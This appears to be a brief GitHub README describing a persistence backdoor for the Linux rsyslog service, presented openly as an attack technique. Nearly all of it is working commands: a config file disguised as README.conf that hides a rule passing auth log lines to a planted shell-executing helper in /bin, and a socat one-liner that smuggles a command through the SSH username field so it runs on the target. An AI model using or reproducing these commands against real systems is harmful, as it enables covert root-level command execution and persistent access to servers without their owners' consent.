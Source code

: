 # RSYSLOG Backdoor

rsyslog is a Linux service for gathering and managing system-wide logs. since the log managing services and programs are always running on production servers and almost all systems, backdooring rsyslog and similar services are a good way of gaining persistence.

LISTEN:

```
man -a rsyslogd syslog|perl -pe'print "auth.* ^/bin/atg "if$.==177;print"#"' > /etc/rsyslog.d/README.conf
echo -e '#!/bin/sh\nsh -c "$1"'>/bin/atg
chmod 755 /bin/atg
/etc/init.d/rsyslog restart
```

EXECUTE:

```
echo "';whoami>/tmp/rsyslogd.owned;'"| socat STDIO TCP4:<target ip>:22
```
